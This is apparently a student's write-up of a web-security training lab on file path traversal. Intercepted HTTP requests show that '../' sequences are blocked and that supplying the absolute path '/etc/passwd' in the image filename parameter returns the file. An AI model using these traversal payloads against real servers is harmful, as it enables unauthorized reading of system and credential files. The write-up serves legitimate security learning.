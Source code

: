 #+title: File path traversal, traversal sequences blocked with absolute path bypass

* Table of Contents :toc:
- [[#lab-contains][Lab Contains]]
- [[#end-goal][End Goal]]
- [[#solution][Solution]]
- [[#payload-to-solve-the-lab][Payload to solve the lab]]

* Lab Contains
- directory traversal vulnerability on display of product images
- blocks traversal sequences
  - but treats the supplied filename as being relative to default working directory
* End Goal
- retrieve the contents of the ~/etc/passwd~ file
* Solution
- Access the lab
- Open one of products image on the new tab and intercept the request in burpsuite
  #+begin_src shell
    GET /image?filename=1.jpg HTTP/2
    Host: 0a9300d8035243288e6a7ed6008100b8.web-security-academy.net
    Cookie: session=f65IPhb2qtFuvrEO8i30w8qQ4MNEqcyG
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://0a9300d8035243288e6a7ed6008100b8.web-security-academy.net/
    Dnt: 1
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Sec-Gpc: 1
    Te: trailers
  #+end_src
- so change ~1.jpg~ to ../../../etc/passwd to check if the we can get the contents of /etc/passwd file
  #+begin_src shell
    HTTP/2 400 Bad Request
    Content-Type: application/json; charset=utf-8
    X-Frame-Options: SAMEORIGIN
    Content-Length: 14

    "No such file"
  #+end_src
  - According to lab description it is blocking our traversal sequences. Now try with absolute path like ~/etc/passwd~ and see the response
   #+begin_src shell
     GET /image?filename=/etc/passwd HTTP/2
     Host: 0a9300d8035243288e6a7ed6008100b8.web-security-academy.net
     Cookie: session=f65IPhb2qtFuvrEO8i30w8qQ4MNEqcyG
     User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
     Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
     Accept-Language: en-US,en;q=0.5
     Accept-Encoding: gzip, deflate
     Referer: https://0a9300d8035243288e6a7ed6008100b8.web-security-academy.net/
     Dnt: 1
     Upgrade-Insecure-Requests: 1
     Sec-Fetch-Dest: document
     Sec-Fetch-Mode: navigate
     Sec-Fetch-Site: same-origin
     Sec-Fetch-User: ?1
     Sec-Gpc: 1
     Te: trailers
  #+end_src
  - Awala!! 200 OK
  #+begin_src shell
    HTTP/2 200 OK
    Content-Type: image/jpeg
    X-Frame-Options: SAMEORIGIN
    Content-Length: 2316
  #+end_src

* Payload to solve the lab
- /etc/passwd
